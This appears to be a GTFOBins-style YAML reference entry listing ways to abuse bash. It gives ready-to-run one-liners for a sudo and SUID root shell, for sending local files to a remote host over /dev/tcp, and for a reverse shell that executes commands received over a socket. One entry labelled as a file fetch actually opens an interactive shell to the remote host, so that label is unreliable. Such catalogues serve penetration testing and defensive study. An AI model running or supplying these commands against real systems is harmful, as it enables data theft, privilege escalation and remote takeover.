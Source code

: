 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection.
      code: |-
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1 > $LFILE
  reverse-shell:
    - code: |
        RHOST=127.0.0.1 
        RPORT=8000
        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT;while read line 0<&5; do $line 2>&5 >&5; done
---
```

